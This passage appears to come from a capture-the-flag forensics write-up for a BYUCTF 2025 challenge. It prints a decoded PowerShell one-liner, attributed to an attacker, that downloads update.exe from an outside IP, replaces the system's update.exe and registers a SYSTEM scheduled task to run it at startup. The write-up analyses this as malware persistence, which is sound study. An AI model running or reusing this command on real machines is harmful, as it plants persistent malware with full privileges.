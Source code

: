 ![alt text](<../../../assets/images/BYUCTF-2025/Wimdows/update b64 decodde.png>)

```powershell
$BINARY='C:\Windows\System32\update.exe' ; $ProgressPreference = 'SilentlyContinue' ; Invoke-WebRequest -Uri "http://192.168.1.107:8000/update.exe" -OutFile $BINARY ; schtasks /create /tn "updates" /tr $BINARY /ru 'SYSTEM' /sc onstart /rl highest ; schtasks /run /tn "updates
```
This revealed that the attacker downloaded a malicious executable and replaced the legitimate `C:\Windows\System32\update.exe` with this malware while maintaining the same filename to avoid detection.

I extracted the `update.exe` and uploaded it to `VirusTotal` and this is the result. 
